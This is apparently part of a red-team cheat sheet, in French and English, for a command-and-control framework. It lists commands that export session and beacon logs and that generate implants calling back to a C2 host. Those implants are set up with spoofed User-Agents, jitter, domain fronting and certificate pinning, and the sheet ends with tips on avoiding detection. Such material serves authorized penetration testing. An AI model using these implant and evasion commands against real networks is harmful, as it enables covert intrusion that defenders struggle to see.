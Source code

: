 ### Audit et reporting
```bash
# Export session info
sessions --export /tmp/sessions.json

# Command history
history --export /tmp/commands.txt

# Beacon tracking
beacons --track --export /tmp/beacons.log
```

## 🛡️ Operational Security

### Communication profiles
```bash
# Custom HTTP headers
generate --http https://company.com --http-header "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"

# Jitter configuration
generate --http https://company.com --jitter 30s

# Sleep intervals
generate --http https://company.com --reconnect-interval 60s
```

### Infrastructure masking
```bash
# Domain fronting
generate --http https://cloudfront.net --host-header company.com

# Redirectors usage
# Nginx/Apache redirector config needed

# Certificate pinning
generate --https https://company.com --cert-pin [SHA256_HASH]
```

## ⚠️ Erreurs fréquentes

### Configuration mistakes
- Utiliser des certificats auto-signés évidents
- Négliger la rotation des infrastructures C2
- Oublier de configurer des profiles de communication réalistes
- Exposer directement les serveurs C2

### Operational errors
- Laisser des implants actifs après mission
- Ne pas nettoyer les artefacts sur les systèmes
- Réutiliser les mêmes payloads sur plusieurs cibles
- Ignorer les indicateurs de détection (IoCs)
